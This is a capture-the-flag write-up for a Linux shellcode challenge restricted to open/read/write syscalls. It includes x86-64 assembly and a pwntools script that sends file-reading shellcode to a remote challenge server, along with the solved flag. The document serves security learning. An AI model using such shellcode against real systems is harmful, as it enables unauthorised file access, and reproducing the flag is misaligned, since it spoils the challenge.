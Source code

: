 # **Shellcode - PWN CTF Challenge**

### ***Description***
> Dễ mà tự viết đi trên trên mạng không có đâu
> - Bắt buộc dùng open, read, write để đọc flag
> - Không cần quan tâm đến seccomp
> - Dùng syscall ngoài open, read, write sẽ bị khóa

### ***Exploitation***
---

[link](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

[hint](https://drx.home.blog/2019/04/03/pwnable-tw-orw/ )

![checkfile](images/checkfile.png)

![test](images/test.png)

![syscall](images/syscall_syntax.png)

```js
mov 	rbx, %d' % u64(b'.txt\x00\x00\x00\x00')
push 	rbx
mov 	rbx, %d' % u64(b'ongCoDon')
push 	rbx
mov 	rbx, %d' % u64(b'PhaPhaKh')
push 	rbx
```

```js
mov	rdi, rsp		
mov	rsi, 0
mov 	rdx, 0	
mov	rax, 2	
syscall
```

```js
mov	rdi, rax
mov	rsi, rsp
mov	rdx, 0x100
mov 	rax, 0
syscall
```

```js
mov	rdi, 1
mov	rsi, rsp
mov	rdx, rax
mov 	rax, 1
syscall
```

```js
from pwn import *

#p = process('./shellcode')
r = remote('45.122.249.68', 10017)

shellcode = asm('\n'.join([
	'mov rbx, %d' % u64(b'.txt\x00\x00\x00\x00'),
	'push rbx',
	'mov rbx, %d' % u64(b'ongCoDon'),
	'push rbx',
	'mov rbx, %d' % u64(b'PhaPhaKh'),
	'push rbx', 
	'mov	rdi, rsp',		
	'mov	rsi, 0',
	'mov 	rdx, 0',	
	'mov	rax, 2',	
	'syscall',
	'mov	rdi, rax',
	'mov	rsi, rsp',
	'mov	rdx, 0x100',
	'mov 	rax, 0',
	'syscall',
	'mov	rdi, 1',
	'mov	rsi, rsp',
	'mov	rdx, rax',
	'mov 	rax, 1',
    'syscall',
]), arch='amd64', os='linux')

r.recvuntil(b'PhaPhaKhongCoDon.txt\n')
r.sendline(shellcode)
r.interactive()
```

![flag](images/flag.png)

> **FLAG: Wanna.One{ve_so_sang_mua_chieu_xo_em_nghi_anh_la_ai_ma_sang_cua_chieu_do}**





